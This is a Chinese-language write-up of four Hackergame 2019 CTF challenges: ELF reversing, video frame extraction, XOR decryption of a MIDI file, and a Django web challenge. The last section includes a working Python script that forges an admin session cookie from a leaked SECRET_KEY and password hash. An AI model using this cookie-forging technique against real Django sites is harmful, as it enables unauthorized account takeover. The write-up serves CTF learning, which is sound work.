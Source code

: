 # Hackergame 2019 Write-Ups

by 三日月綾香 \(GitHub [sgalal](https://github.com/sgalal)\)

rank \#66

只收录了四个题目，其他题目的是解法与官方题解相同，或者没有解出来的。

## 小巧玲珑的 ELF

本题为 C 语言逆向题。用 Cutter 打开，可以看到主程序有两个循环：

![Cutter](1571468905429.png)

```c
for (int i = 0; i <= 0x2d; i++) {
    a[i] = (char)(i * 2 + a[i]);
    a[i] = (char)(i ^ arr[i]);
    a[i] = (char)(arr[i] - i);
}
for (int j = 0; j <= 0x2d; j++) {
    if (a[j] != b[j]) {
        exit(0);
    }
}
```

其中用数组 `b` 是用户输入的数据，数组 `a` 的内容如下：

```python
[0x66,0x6e,0x65,0x6b,0x83,0x4e,0x6d,0x74,0x85,0x7a,0x6f,0x57,0x91,0x73,0x90,0x4f,0x8d,0x7f,0x63,0x36,0x6c,0x6e,0x87,0x69,0xa3,0x6f,0x58,0x73,0x66,0x56,0x93,0x9f,0x69,0x70,0x38,0x76,0x71,0x78,0x6f,0x63,0xc4,0x82,0x84,0xbe,0xbb,0xcd]
```

于是使用 Python 恢复内容：

```python
''.join(chr(((n + i) ^ i) - i * 2) for i, n in enumerate(a))
```

## 三教奇妙夜

本题为视频分析题，视频内容为 3C102 的场景，根据题目描述，偶尔会闪过 **黑底白字** 的内容。

因此可以遍历每一帧，检查第一个像素是否是纯黑或者纯白。

```python
import cv2
import numpy as np

cap = cv2.VideoCapture('output.mp4')

frame_width = int(cap.get(3))
frame_height = int(cap.get(4))

out = cv2.VideoWriter('outpy.avi', cv2.VideoWriter_fourcc('M','J','P','G'), 10, (frame_width, frame_height))

i = 0
lastframe = None
total_capture_count = 10

while True:
	success, frame = cap.read()
	if not success:
		break
	if frame[0][0][2] == 0 or frame[0][0][2] == 255:
		if not np.array_equal(lastframe, frame):
			lastframe = frame
			out.write(frame)

			if i == total_capture_count:
				break
			else:
				i += 1

cap.release()
out.release()
```

P\.S\. 实际上代码中 `frame[0][0][2]` 只检查了第一个像素的其中一个分量；`total_capture_count` 的限制其实是不需要的。

## 小 U 的加密

根据题目描述，本题中的文件经过加密。

使用 `hexdump` 命令发现有很多 0x39，判断 0x39 对应 0x00。

将文件全部与 0x39 按位异或输出为 `out`，然后使用 `file out` 命令，得到：

```raw
out: Standard MIDI data (format 0) using 1 track at 1/480
```

将文件重命名为 `out.mid`，使用 `ffplay out.mid` 命令播放，是一段杂乱无章的音乐。于是使用 LMMS 打开：

![Flag in LMMS](1571724170611.png)

## 被泄漏的姜戈

本题是 Web 攻击题。

首先根据题目描述很容易找到被泄漏的源代码 [openlug/django-common](https://github.com/openlug/django-common)。

被泄漏的关键内容为：

* `/db.sqlite3` 中被加密过的密码（`password` 字段）
* `/openlug/settings.py` 中的 `SECRET_KEY`

其中 `settings.py` [第 22 行](https://github.com/openlug/django-common/blob/master/openlug/settings.py#L22-L23) 还有一句提示:

```raw
SECURITY WARNING: keep the secret key used in production non-secret!
```

通过查找 [资料](https://grosquildu.github.io/pentests/web/)，参考 django secret_key when leaked 一节，得到管理员账户的 cookie：

```python
import django
from django.core import signing
SECRET_KEY = 'd7um#o19q+v24!vkgzrxme41wz5#_h0#f_6u62fx0m@k&uwe39'
password_admin = 'pbkdf2_sha256$150000$KkiPe6beZ4MS$UWamIORhxnonmT4yAVnoUxScVzrqDTiE9YrrKFmX3hE='
cookie = signing.dumps({'_auth_user_id': '1', '_auth_user_backend': 'django.contrib.auth.backends.ModelBackend', '_auth_user_hash': django.utils.crypto.salted_hmac('django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash', password_admin, SECRET_KEY).hexdigest()}, SECRET_KEY, salt='django.contrib.sessions.backends.signed_cookies', compress=True)
print(cookie)
```

用这个 cookie 登录即可。哔哩哔哩 (゜-゜)つロ 干杯 ！

